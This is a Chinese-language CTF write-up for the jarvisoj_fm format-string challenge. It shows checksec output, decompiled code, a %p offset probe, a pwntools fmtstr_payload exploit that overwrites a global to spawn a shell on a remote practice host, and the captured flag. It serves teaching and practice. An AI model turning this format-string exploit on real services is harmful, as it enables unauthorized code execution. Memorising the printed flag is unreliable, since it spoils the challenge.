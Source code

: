 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - 格式化字符串
---
```


# jarvisoj_fm

## 前置工作

先来个 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec fm                    
[*] '/home/ela/Pwn/fm'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

有 Canary 和 NX，先看看再说吧

用 IDA 打开主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[80]; // [esp+2Ch] [ebp-5Ch] BYREF
  unsigned int v5; // [esp+7Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  be_nice_to_people();
  memset(buf, 0, sizeof(buf));
  read(0, buf, 0x50u);
  printf(buf);
  printf("%d!\n", x);
  if ( x == 4 )
  {
    puts("running sh...");
    system("/bin/sh");
  }
  return 0;
}
```

发现获得 Shell 的方法就是把 `x` 嗯改成 `4`，而 `x` 原本的值为 `3`，再看一眼 `x` 的地址，是 `0x804A02C`

可以靠格式化字符串 `printf()` 漏洞来强行更改 `x`，但首先我们需要知道格式化字符串的偏移量

## 计算偏移

```python
from pwn import *

io = remote("node4.buuoj.cn", 26068)
io.sendline("aaaa-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p")
io.interactive()
```

得到的结果如下

```
aaaa-0xffd92ffc-0x50-(nil)-0xf7f94000-0xf7f94918-0xffd93000-0xffd930f4-(nil)-0xffd93094-0x32-0x61616161-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d
```

字符串 `aaaa` 对应的 16 进制应当为 `0x61616161`，于是我们可以看出偏移为 `11` 位

## 编写 Exp

直接使用 Pwntools 自带的 `fmtstr_payload()` 函数构建 Payload

```python
from pwn import *

io = remote("node4.buuoj.cn", 26068)
x_addr = 0x804A02C
payload = fmtstr_payload(11, {x_addr: 4})
io.sendline(payload)
io.interactive()

```

最后得到 Flag 为 `flag{22911b79-0cff-434b-9233-47389f152a6c}`